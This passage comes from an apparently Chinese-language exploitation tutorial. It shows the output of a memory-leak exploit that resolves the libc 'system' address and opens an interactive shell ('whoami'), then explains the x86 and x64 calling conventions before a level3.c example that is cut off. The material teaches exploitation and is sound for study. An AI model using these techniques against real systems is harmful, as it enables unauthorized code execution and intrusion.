 0xb77e6924 => 086c7eb7
0xb77e6c0c => c5eb7db7
0xb77e6c14 => 58387cb7
0xb77c385c => 38387cb7
0xb77c3838 => 2f6c6962
0xb77c383c => 2f693338
0xb77c3840 => 362d6c69
0xb77c3844 => 6e75782d
0xb77c3848 => 676e752f
0xb77c384c => 6c696263
0xb77c3850 => 2e736f2e
0xb77c3854 => 36000000
0xb77c3858 => 007060b7
0xb7607000 => 7f454c46
0xb77c3860 => 7cdd7ab7
0xb7607004 => 01010100
0xb77add7c => 01000000
0xb77add84 => 0e000000
0xb77add8c => 0c000000
0xb77add94 => 19000000
0xb77add9c => 1b000000
0xb77adda4 => 04000000
0xb77addac => f5feff6f
0xb77addb0 => b87160b7
0xb77addb4 => 05000000
0xb77addb8 => 584161b7
0xb77addbc => 06000000
0xb77addc0 => 38ae60b7
0xb76071b8 => f3030000
0xb76071bc => 09000000
0xb76071c0 => 00020000
0xb7608390 => 8e050000
0xb7609fa8 => 8ae4ee1c
0xb7610718 => 562f0000
0xb76170ae => 73797374
0xb76170b2 => 656d0074
0xb761071c => 60f40300
system_addr=0xb7646460

###sending payload2 ...###
[*] Switching to interactive mode
$ whoami
mzheng
三、linux_64与linux_86的区别
linux_64与linux_86的区别主要有两点：首先是内存地址的范围由32位变成了64位。但是可以使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。其次是函数参数的传递方式发生了改变，x86中参数都是保存在栈上，但在x64中的前六个参数依次保存在RDI，RSI，RDX，RCX，R8和 R9中，如果还有更多的参数的话才会保存在栈上。

我们还是拿实际程序做例子进行讲解，level3.c内容如下：

#!c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
